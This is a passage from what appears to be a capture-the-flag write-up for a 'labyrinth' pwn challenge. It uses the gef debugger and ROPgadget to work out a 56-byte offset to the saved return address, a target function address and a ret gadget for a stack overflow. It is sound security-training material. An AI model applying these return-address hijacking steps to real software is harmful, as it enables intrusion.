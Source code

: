 After setting the breakpoint, we can input `AAAAAAAAAAAAAAAAAAAA` and execute the program until it hits the breakpoint.

Once the program hits the breakpoint, we can use search-pattern to find our input in the memory:
```console
gef➤  search-pattern AAAAAAAAAAAAA
[+] Searching 'AAAAAAAAAAAAA' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffddb0 - 0x7fffffffddc6  →   "AAAAAAAAAAAAAAAAAAAA\n" 
```

This will search for our input in the memory and display the memory address where it is located. We can use this address to determine the exact offset between `local_38` and RIP.

We found the input at address `0x7fffffffddb0`, We can use the `info frame` (`i f`) command to locate the address of `RIP`:
```console
gef➤  i f
Stack level 0, frame at 0x7fffffffddf0:
 rip = 0x4015da in main; saved rip = 0x7ffff7dbcd90
 Arglist at 0x7fffffffdde0, args: 
 Locals at 0x7fffffffdde0, Previous frame's sp is 0x7fffffffddf0
 Saved registers:
  rbp at 0x7fffffffdde0, rip at 0x7fffffffdde8
```

Based on the calculation, the offset between local_38 and RIP is `0x7fffffffdde8-0x7fffffffddb0=0x38` which is `56`.

We also need the address of the `escape_plan` function:
```console
gef➤  print escape_plan 
$1 = {<text variable, no debug info>} 0x401255 <escape_plan>
```

To recap, we have the following information:

1. The offset between the buffer `local_38` and `RIP` is `56` bytes.
2. The target address of the `escape_plan` function is `0x401255`.

We need to add a `ret` instruction because the stack is misaligned.

We can use this information to craft our exploit and overwrite the value of `RIP` with the address of the `escape_plan` function, which will cause the program to jump to the `escape_plan` function and print the flag.

We can obtain the ret instruction address using `ROPgadget`. The `ret` instruction is required to fix the misalignment of the stack caused by the stack overflow:
```console
┌─[evyatar9@parrot]─[/ctf_htb/cyber_apocalypse/pwn/labyrinth]
└──╼ $ ROPgadget --binary ./labyrinth --only "ret"
Gadgets information
============================================================
0x0000000000401016 : ret
...

Unique gadgets found: 2
```
